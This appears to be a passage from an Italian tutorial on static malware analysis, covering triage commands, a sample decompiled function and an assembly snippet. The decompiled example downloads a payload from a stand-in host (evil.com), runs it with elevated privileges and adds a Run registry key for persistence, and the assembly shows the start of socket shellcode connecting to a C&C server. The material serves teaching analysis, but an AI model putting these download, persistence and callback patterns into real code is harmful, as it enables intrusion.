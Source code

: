 ## Analisi Statica

### 1. Analisi Superficiale

```bash
# Informazioni basic del file
file malware.exe
strings malware.exe | head -20
hexdump -C malware.exe | head -10

# Hash e metadata
md5sum malware.exe
sha256sum malware.exe
exiftool malware.exe
```

### 2. Analisi con Ghidra

```c
// Esempio di funzione decompilata
void malicious_function(void) {
    char *url = "http://evil.com/payload";
    char *filename = "C:\\temp\\backdoor.exe";
    
    // Download del payload
    download_file(url, filename);
    
    // Esecuzione con privilegi elevati
    execute_with_privileges(filename);
    
    // Persistenza nel registro
    add_registry_key("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run", 
                    "SystemUpdate", filename);
}
```

### 3. Analisi Assembly

```assembly
; Esempio di shellcode
section .text
global _start

_start:
    ; Syscall per socket
    mov eax, 0x66        ; sys_socketcall
    mov ebx, 0x01        ; SYS_SOCKET
    xor ecx, ecx
    push ecx
    push 0x01            ; SOCK_STREAM
    push 0x02            ; AF_INET
    mov ecx, esp
    int 0x80             ; chiamata di sistema
    
    ; Connessione al C&C
    mov edi, eax         ; salva socket descriptor
    mov eax, 0x66
    mov ebx, 0x03        ; SYS_CONNECT
    ; ... resto del codice
```
